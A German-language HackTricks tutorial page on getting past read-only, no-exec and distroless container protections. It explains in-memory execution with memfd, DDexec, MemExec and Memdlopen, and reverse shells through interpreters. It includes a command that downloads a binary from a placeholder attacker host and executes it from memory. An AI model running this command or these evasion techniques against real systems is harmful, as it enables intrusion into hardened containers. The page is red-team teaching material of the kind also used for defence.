# Umgehung von FS-Schutzmaßnahmen: Nur-Lesen / Kein-Exec / Distroless

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließendes Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos finden Sie die auf dieser Seite erwähnten Techniken ausführlicher erläutert:

* [**DEF CON 31 - Erkundung der Linux-Speicher-Manipulation für Stealth und Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth-Eindringungen mit DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Nur-Lesen / Kein-Exec-Szenario

Es wird immer häufiger, Linux-Maschinen mit **Schutzmaßnahmen für das Nur-Lesen (ro) Dateisystem** zu finden, insbesondere in Containern. Dies liegt daran, dass das Ausführen eines Containers mit einem ro-Dateisystem so einfach ist wie das Festlegen von **`readOnlyRootFilesystem: true`** im `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Auch wenn das Dateisystem als ro eingebunden ist, wird **`/dev/shm`** weiterhin beschreibbar sein, sodass wir nichts auf die Festplatte schreiben können. Dieser Ordner wird jedoch mit **no-exec-Schutz** eingebunden, sodass Sie, wenn Sie hier eine Binärdatei herunterladen, diese **nicht ausführen können**.

{% hint style="warning" %}
Aus der Sicht eines Red Teams wird es dadurch **kompliziert, Binärdateien herunterzuladen und auszuführen**, die nicht bereits im System vorhanden sind (wie Backdoors oder Enumeratoren wie `kubectl`).
{% endhint %}

## Einfachste Umgehung: Skripte

Beachten Sie, dass ich von Binärdateien gesprochen habe, Sie können **jedes Skript ausführen**, solange der Interpreter innerhalb der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python-Skript**, wenn `python` installiert ist.

Dies reicht jedoch nicht aus, um Ihre Binärdatei-Backdoor oder andere Binärwerkzeuge auszuführen, die Sie möglicherweise ausführen müssen.

## Speicherumgehungen

Wenn Sie eine Binärdatei ausführen möchten, das Dateisystem dies jedoch nicht zulässt, ist der beste Weg, dies zu tun, indem Sie es aus dem Speicher ausführen, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec-Systemaufruf-Umgehung

Wenn Sie leistungsstarke Skript-Engines innerhalb der Maschine haben, wie **Python**, **Perl** oder **Ruby**, könnten Sie die Binärdatei zum Ausführen aus dem Speicher herunterladen, in einem Speicherdateideskript speichern (`create_memfd`-Systemaufruf), das nicht durch diese Schutzmaßnahmen geschützt wird, und dann einen **`exec`-Systemaufruf** aufrufen, wobei der **fd als auszuführende Datei** angegeben wird.

Hierfür können Sie das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Sie können ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache mit der **Binärdatei komprimiert und b64-codiert** generieren, mit den Anweisungen zum **Dekodieren und Dekomprimieren** in einem durch `create_memfd`-Systemaufruf erstellten **fd** und einem Aufruf des **exec**-Systemaufrufs zum Ausführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprachen wie PHP oder Node, da sie keine **Standardmethode zum Aufrufen von Rohsystemaufrufen** aus einem Skript haben. Daher ist es nicht möglich, `create_memfd` aufzurufen, um den **Speicher-FD** zum Speichern der Binärdatei zu erstellen.

Darüber hinaus wird das Erstellen eines **regulären FDs** mit einer Datei in `/dev/shm` nicht funktionieren, da Sie nicht berechtigt sind, sie auszuführen, da der **no-exec-Schutz** angewendet wird.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es Ihnen ermöglicht, den **Speicher Ihres eigenen Prozesses zu modifizieren**, indem Sie seinen **`/proc/self/mem`** überschreiben.

Daher können Sie, indem Sie den vom Prozess ausgeführten Assemblercode kontrollieren, ein **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es Ihnen, Ihren eigenen **Shellcode** oder **beliebige Binärdateien** aus dem **Speicher zu laden und auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es handelt sich um einen **DDexec-Shellcode-Dämon**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen möchten**, DDexec nicht neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Dämon kommunizieren, um neue Binärdateien zu übergeben, zu laden und auszuführen**.

Ein Beispiel, wie Sie **Memexec verwenden können, um Binärdateien von einer PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die **Memdlopen**-Technik eine **einfachere Möglichkeit, Binärdateien im Speicher zu laden**, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist Distroless

Distroless-Container enthalten nur die **absolut notwendigen Komponenten, um eine bestimmte Anwendung oder einen bestimmten Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, aber schließen größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die Angriffsfläche von Containern zu **verringern, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert werden.

### Reverse-Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine reguläre Shell zu erhalten. Sie finden auch keine Binärdateien wie `ls`, `whoami`, `id`... alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **keine** **Reverse-Shell** erhalten oder das System **wie gewohnt durchsuchen können**.
{% endhint %}

Wenn jedoch der kompromittierte Container beispielsweise ein Flask-Web ausführt, dann ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn Node ausgeführt wird, können Sie eine Node-Rev-Shell erhalten, und dasselbe gilt für fast jede **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das System **durch die Fähigkeiten der Sprache durchsuchen**.
{% endhint %}

Wenn es **keine `read-only/no-exec`**-Schutzmaßnahmen gibt, könnten Sie Ihre Reverse-Shell missbrauchen, um **Ihre Binärdateien im Dateisystem zu schreiben** und sie **auszuführen**.

{% hint style="success" %}
In diesen Containern werden diese Schutzmaßnahmen jedoch normalerweise vorhanden sein, aber Sie könnten die **vorherigen Speicher-Ausführungstechniken verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie Sie **einige RCE-Schwachstellen ausnutzen** können, um Skriptsprachen **Reverse-Shells** zu erhalten und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
